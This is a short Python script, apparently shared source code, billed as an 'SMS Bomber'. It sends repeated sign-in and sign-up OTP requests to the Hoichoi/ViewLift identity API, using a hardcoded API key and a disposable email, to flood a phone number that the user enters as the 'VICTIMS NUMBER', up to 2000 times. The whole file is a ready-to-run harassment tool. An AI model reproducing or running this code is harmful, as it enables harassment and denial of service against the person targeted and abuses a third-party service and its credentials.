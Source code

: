 
#!/usr/bin/env python3
#Thanks To Partho

import requests as baba

"""
SMS Bomber using Hoichoi SMS api
"""

def send(target):
  header = {
    "x-api-key": "dtGKRIAd7y3mwmuXGk63u3MI3Azl1iYX8w9kaeg3"
  }

  data = {
    "requestType":"send",
    "phoneNumber":"+88"+target,
    "screenName":"signin"
  }

  url = "https://prod-api.viewlift.com/identity/signin?site=hoichoitv&deviceId=browser-44067eab-5337-99d8-11eb-99ca1e4db186"
  res = baba.post(url, json=data, headers=header)
  if res.json().get("code"):
    data = {
      "requestType":"send",
      "phoneNumber":"+88"+target,
      "emailConsent":"true",
      "whatsappConsent":"true",
      "email":"cicas94417@iconmle.com"
    }
    url = "https://prod-api.viewlift.com/identity/signup?site=hoichoitv"

    res = baba.post(url, json=data, headers=header)
    if not res.json().get("sent"): return False
  return True

def main():
  target = input("\n\n\n\n\033[1;93m[*] ENTER VICTIMS NUMBER: ")
  amount = int(input("\033[1;96m[*] THREAT (HIGHEST 2000) : "))
  sent, nsent = 0, amount
  for i in range(1, amount + 1):
    try:
      if send(target):
        print(f"[ID: {i}] SMS Sent!")
        sent += 1
        nsent -= 1
      else:
        print(f"[ID: {i}] SMS Not Sent...")
    except KeyboardInterrupt: break
    except Exception as e: print(e); break
  print(f"\n[*] Total Threat : {amount}\n[+] Sent: {sent}\n[-] Not Sent: {nsent}")

if __name__ == "__main__":
  main()
